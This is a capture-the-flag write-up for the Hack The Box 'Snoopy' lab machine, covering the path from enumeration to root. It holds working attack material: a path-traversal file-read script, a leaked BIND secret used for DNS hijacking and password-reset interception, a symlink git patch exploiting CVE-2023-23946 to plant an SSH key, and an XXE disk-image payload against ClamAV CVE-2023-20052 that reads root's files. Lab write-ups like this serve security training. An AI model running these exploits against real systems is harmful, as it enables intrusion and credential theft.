


# Snoopy - HTB(Hard)
## IP = 10.10.11.212


### NMAP


```

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ee6bcec5b6e3fa1b97c03d5fe3f1a16e (ECDSA)
|_  256 545941e1719a1a879c1e995059bfe5ba (ED25519)
53/tcp open  domain  ISC BIND 9.18.12-0ubuntu0.22.04.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.18.12-0ubuntu0.22.04.1-Ubuntu
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: SnoopySec Bootstrap Template - Index
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


### Enumeration

Started screwing around the site and found out the domain is `snoopy.htb` entered it into my hosts file and immediately started a DNS enumeration because port 53 is open.

#### DNS Enumeration

```

$ dig axfr snoopy.htb @10.10.11.212

; <<>> DiG 9.18.11-2-Debian <<>> axfr snoopy.htb @10.10.11.212
;; global options: +cmd
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
snoopy.htb.             86400   IN      NS      ns1.snoopy.htb.
snoopy.htb.             86400   IN      NS      ns2.snoopy.htb.
mattermost.snoopy.htb.  86400   IN      A       172.18.0.3
mm.snoopy.htb.          86400   IN      A       127.0.0.1
ns1.snoopy.htb.         86400   IN      A       10.0.50.10
ns2.snoopy.htb.         86400   IN      A       10.0.51.10
postgres.snoopy.htb.    86400   IN      A       172.18.0.2
provisions.snoopy.htb.  86400   IN      A       172.18.0.4
www.snoopy.htb.         86400   IN      A       127.0.0.1
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
;; Query time: 203 msec
;; SERVER: 10.10.11.212#53(10.10.11.212) (TCP)
;; WHEN: Wed Aug 30 14:41:01 EDT 2023
;; XFR size: 11 records (messages 1, bytes 325)

```

```

$ ffuf -w /usr/share/wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u http://snoopy.htb/ -H "Host: FUZZ.snoopy.htb" -fw 5514 -mc all -o subs.out

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://snoopy.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.snoopy.htb
 :: Output file      : subs.out
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 5514
________________________________________________

[Status: 200, Size: 3132, Words: 141, Lines: 1, Duration: 97ms]
    * FUZZ: mm

:: Progress: [114441/114441] :: Job [1/1] :: 375 req/sec :: Duration: [0:06:25] :: Errors: 0 ::

```


### LFI


```

$ ffuf -w /usr/share/wordlists/SecLists-master/Fuzzing/LFI/LFI-Jhaddix.txt -u http://snoopy.htb/download?file=FUZZ -fw 1 -mc all

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://snoopy.htb/download?file=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists-master/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 1
________________________________________________

[Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 90ms]
    * FUZZ: ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd

```

found a shorter one `....//....//....//....//....//....//....//etc/passwd`

I built a little script to make the lfi easier.

```python3

$ cat lfi.py
#!/usr/bin/env python3
import requests
import sys
import zipfile
import io

archive = f"press_package/{sys.argv[1]}"
file = f"....//....//....//....//....//....//....//{sys.argv[1]}"
payload = {"file":file}
r = requests.get('http://snoopy.htb/download', params=payload)
zip_file = zipfile.ZipFile(io.BytesIO(r.content))
file_read = zip_file.read(archive)
print(file_read.decode('ascii'))

```

```

$ python3 lfi.py etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
lpelt:x:1003:1004::/home/lpelt:/bin/bash
cschultz:x:1004:1005:Charles Schultz:home/cschultz:/bin/bash
vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bash

```

So I started looking for stuff on the file system, I recalled of the dns server which is open on tcp so I started going through dns configuration.

Found something very interesting:

```

$ python3 lfi.py /etc/bind/named.conf
// This is the primary configuration file for the BIND DNS server named.
//
// Please read /usr/share/doc/bind9/README.Debian.gz for information on the
// structure of BIND configuration files in Debian, *BEFORE* you customize
// this configuration file.
//
// If you are just adding zones, please do that in /etc/bind/named.conf.local

include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};

```

We got a BIND secret key, with it we can update the dns server and host a subdomain on our server so every communication that goes through it runs through us.

If you roamed around the site a little bit in the beginning you could see the following message:

```
Attention:  As we migrate DNS records to our new domain please be advised that our mailserver 'mail.snoopy.htb' is currently offline.

```

So we can try and host the `mail.snoopy.htb` subdomain, and by that impersonate some email address and recive sensetive information.

### Exploit DNS and Email

To do the exploit you need to to the following:



After doing this you need to go to the mattermost subdomain `mm.snoopy.htb` there you have a login page you can select the "forgot password" link which leads you to a page that says that you need to enter your email and it will send you a link to login with a new password. So what we need to do is enter one of the workers emails if you roamed around the site you could see some of them, I chose `cschultz@snoopy.htb`.
So I entered in the email and submitted.


If you did all of that you should see something like the following on your smtp server:

```
b'Reset Password ( http://mm.snoopy.htb/reset_password_complete?token=3Ddejxn='
b'5dg69hpz6cm6x5uxjh9zkk487rmdncy9i1kch6nq3ii4ffhxrt34fbe64hz )'

```

Great so after you got the password reset link let's enter it. 

I tried to enter `http://mm.snoopy.htb/reset_password_complete?token=3Ddejxn=5dg69hpz6cm6x5uxjh9zkk487rmdncy9i1kch6nq3ii4ffhxrt34fbe64hz` but something was failing after playing with it I managed to find out the correct url format which is:

```
http://mm.snoopy.htb/reset_password_complete?token=dejxn5dg69hpz6cm6x5uxjh9zkk487rmdncy9i1kch6nq3ii4ffhxrt34fbe64hz
```
just removed the extra `=` and `3D` which is hex for `=`. 

After entering the url I changed the password and logged in.

### SSH credential Hijacking

After looking around and reading a little bit the chat I found out they're using some kind of server that when you type the `/server_provision` in chat you get a pop-up that shows you can communicate with a SSH server on port 2222. 

So I tried getting a reverse shell just with `nc` unfortunatlly didn't work:

```
$ sudo nc -lnvp 2222             
[sudo] password for kali: 
listening on [any] 2222 ...
connect to [10.10.14.158] from (UNKNOWN) [10.10.11.212] 33190
SSH-2.0-paramiko_3.1.0

```

So I thought about session hijacking, and to do that I need some sort of mitm software. Found out about `ssh-mitm` played with it a little bit until finally run the following commands:



And just like that we got `cbrown`'s creds.

### Lateral Movement


```

$ ssh cbrown@snoopy.htb
cbrown@snoopy.htb's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

cbrown@snoopy:~$

```

After logging in to `cbrown` we're still not user. If you look at the `/home` directory you could see another user called `sbrown`. So I started with some post-exploitation techniques. `sudo -l` is one of them:

```

cbrown@snoopy:~$ sudo -l
[sudo] password for cbrown:
Matching Defaults entries for cbrown on snoopy:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User cbrown may run the following commands on snoopy:
    (sbrown) PASSWD: /usr/bin/git ^apply -v [a-zA-Z0-9.]+$

```

Ok so we can run as sbrown this command, interesting, after searching I found the following vulnerabilities on a github post: https://github.blog/2023-02-14-git-security-vulnerabilities-announced-3/

one of them caught my eye: 

CVE-2023-23946 - Git allows for applying arbitrary patches to your repository’s history with `git apply`. In order to prevent malicious patches from creating files outside of the working copy, `git apply` rejects patches which attempt to write a file beyond a symbolic link.

However, this mechanism can be tricked when the malicious patch creates that symbolic link in the first place. This can be leveraged to write arbitrary files on a victim’s filesystem when applying malicious patches from untrusted sources.

If we look at our git version we could see:

```
cbrown@snoopy:~$ git --version
git version 2.34.1
```

It is not a patched version. It is vulnerable know we need to figure out how to exploit it. 

#### git apply explot - CVE-2023-23946

first is what I want to write in the target's file system, the best thing to write would be the `authorized_keys` file so I could generate a rsa key and log in to `sbrown`.

```

$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./sbrown_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in ./sbrown_rsa
Your public key has been saved in ./sbrown_rsa.pub
The key fingerprint is:
SHA256:+i9HXoPYZmHKyT7zddxSbsZkdz2XH/2FKDNdj181LTA kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|            E    |
|             o  .|
|              o.o|
|          o. o =*|
|       oS*+oo o+&|
|       .* *+o. O@|
|      .. = ...+ X|
|       .= o. . + |
|        .Bo      |
+----[SHA256]-----+

``` 

Step 1 done. Now step 2 we need to create a symlink to where we want to write the file.

```

cbrown@snoopy:/dev/shm$ ln -s /home/sbrown/.ssh/ symlink
cbrown@snoopy:/dev/shm$ ls -l
total 0
lrwxrwxrwx 1 cbrown cbrown 18 Sep 10 14:17 symlink -> /home/sbrown/.ssh/

```

great now, we need to create a patch that looks like this:

```

cbrown@snoopy:/dev/shm$ cat x.patch
diff --git a/symlink b/newsymlink
rename from symlink
rename to newsymlink
--
diff --git /dev/null b/newsymlink/spawn
new file mode 100644
index 0000000..e47f4ea
--- /dev/null
+++ b/newsymlink/authorized_keys
@@ -0,0 +1 @@
+ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDA8iyhPVg6rcrDdihYkBWTbfqdnSxQ3BMFg7IPyC4ZJ5qRdZRCJqf6e4hqXOY5COOk3vlvMX7NH1e7u2Q0vS5tYWDG7NFJ4Y5nsoGh2LnR7luD8RyxnDXCeIWPKhqb7cVqUF5y+wtMg3Uj+dRjUaQjX6FAygN7zhulQev/H5LCFaumVGzOXHhBtzMaP+iOCllqcxq4RLP/YhIWCGH5V/8SkRyJJ68+1CmVDaHqBp0X8xsGMwV1jBTTMK2RdTKdXT4TJ9BWYrnpdGaH4FRjmPBpR2Mq1h33jtjAxH/ScLGkQVi0R+AbiOUuPrZnSDiKIqXqQn0ITrMLUaYmj3B7yajePD6k/wOFqkEKlfW5r0rqkWXTGCHSsWY8xE/EohjqBrro+81w9szRDxPhvLrmwifo/MaldZcVwD6qauoMmrL93b0+hLw/Tsih7zFYPmT5zx/X7na4DXgK6dIOUZpTjv0rEq6+y5oAnn4lfpVuxGEqm7W+LqRYIEhf2itHq2RcflE= kali@kali
\ No newline at end of file

```

as you can see we got the file we want to create on the `+++` and the our public rsa key at the bottom. 

Now after all that we can go an execute the `git` command:

```

cbrown@snoopy:/dev/shm$ sudo -u sbrown /usr/bin/git apply -v x.patch
[sudo] password for cbrown:
Checking patch symlink => newsymlink...
Checking patch newsymlink/authorized_keys...
warning: unable to unlink 'symlink': Operation not permitted
Applied patch symlink => newsymlink cleanly.
Applied patch newsymlink/authorized_keys cleanly.

```

After that it looks that everything is fine and we can ssh to sbrown.

### User.txt

```

$ ssh -i ssh/sbrown_rsa sbrown@snoopy.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

sbrown@snoopy:~$ cat user.txt
af64960eff0450d6aa81d48a24d4ddef

```

### Privilege Escalation

After entering sbrown I ran `sudo -l` again these are the results:

```

sbrown@snoopy:~$ sudo -l
Matching Defaults entries for sbrown on snoopy:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User sbrown may run the following commands on snoopy:
    (root) NOPASSWD: /usr/local/bin/clamscan ^--debug /home/sbrown/scanfiles/[a-zA-Z0-9.]+$

```

OK so we can run `clamscan` which is a clamAV binary that scans for viruses and we can scan it in debug mode and on the path. We can see the clamAV version and maybe see if there is any vulnerability in the version of the binary.

```
sbrown@snoopy:~$ clamscan --version
ClamAV 1.0.0/26853/Fri Mar 24 07:24:11 2023
```

We can see that there are 2 critical vulnerablilties on this version. 

1. CVE-2023-20052: Fixed a possible remote information leak vulnerability in the DMG file parser. The issue affects versions 1.0.0 and earlier, 0.105.1 and earlier, and 0.103.7 and earlier. Thank you to Simon Scannell for reporting this issue.

2. CVE-2023-20032: Fixed a possible remote code execution vulnerability in the HFS+ file parser. The issue affects versions 1.0.0 and earlier, 0.105.1 and earlier, and 0.103.7 and earlier. Thank you to Simon Scannell for reporting this issue.


I'm going to show both. 


#### Arbitrary File Read - CVE-2023-20052

After searching you can find a blog post talking about the vulnerability(https://onekey.com/blog/clamav-critical-patch-review/):

there is a flag in the code called `XML_PARSE_NOENT` the flag controlls whether or not the parser is allowed to preform entity substitutions and that could lead to XXE. To exploit this vulnerability you need to create an apple image which is a `.dmg` file and inside it's property list inject a malicious xml payload as follows:

```

$ genisoimage -D -V "exploit" -no-pad -r -apple -file-mode 0777 -o test.img . && dmg dmg test.img test.dmg
genisoimage: Warning: no Apple/Unix files will be decoded/mapped
Total translation table size: 0
Total rockridge attributes bytes: 6784
Total directory bytes: 36864
Path table size(bytes): 240
Max brk space used 3b000
125 extents written (0 MB)
Processing DDM...
No DDM! Just doing one huge blkx then...
run 0: sectors=500, left=500
Writing XML data...
Generating UDIF metadata...
Master checksum: ae21af3
Writing out UDIF resource file...
Cleaning up...
Done
$ bbe -e 's|<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">|<!DOCTYPE plist [<!ENTITY xxe SYSTEM "/root/root.txt"> ]>|' -e 's/blkx/&xxe\;/' test.dmg -o exploit.dmg

```

Now you got `exploit.dmg`, upload it to the ssh server to the `/home/sbrown/scanfiles` directory and run the following:

```

sbrown@snoopy:~$ sudo /usr/local/bin/clamscan --debug /home/sbrown/scanfiles/exploit.dmg
LibClamAV debug: searching for unrar, user-searchpath: /usr/local/lib
LibClamAV debug: unrar support loaded from /usr/local/lib/libclamunrar_iface.so.11.0.0
LibClamAV debug: Initialized 1.0.0 engine
...
LibClamAV debug: cli_scandmg: wanted blkx, text value is 332643b2becfe39b4da8854f1ab3ba3b
...

```

And you got root.txt, you can access root buy reading `/root/.ssh/id_rsa`.


